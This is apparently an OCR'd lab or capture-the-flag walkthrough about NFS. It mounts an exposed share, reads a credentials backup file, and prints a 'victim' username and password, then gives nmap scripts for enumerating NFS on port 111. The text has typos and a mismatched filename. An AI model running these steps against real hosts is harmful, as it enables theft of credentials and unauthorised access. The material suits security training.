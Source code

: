           sudo mount 10.10.71.180:/var/nfs/general /mnt     

#### 👀 Note : 
              /var/nfs/general  is mount share file via nfs 
              /mnt is locat dirtectory where mount file will be saved
        
Then ,
      Check mount file on your local device :

                                             ls -la /mnt
                                                                          
                                             total 12
                                             drwxr-xr-x  2 nobody nogroup 4096 Nov 21 10:24 .
                                             drwxr-xr-x 19 root   root    4096 Mar 20 23:41 ..
                                             -rw-r--r--  1 root   root      31 Nov 21 10:24 credentials.bak


Finally  , 
          Read mount file :

                    sudo cat /mnt/credential.bak

                    paradoxial.test
                    ShibaPretzel79

##### 😍Here , paradoxial.test is the username of victim and ShibaPretzel79 is the password of victim

🙄 Happy Hacking 😍

#### Note :UDP port for NFS is 111

When nmap port scan will have shown port 111 running the service rpcbind. This is just a server that converts remote procedure call (RPC) program number into universal addresses. When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve. 

In our case, port 111 is access to a network file system. Lets use nmap to enumerate this.

#### 👀 nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount MACHINE_IP

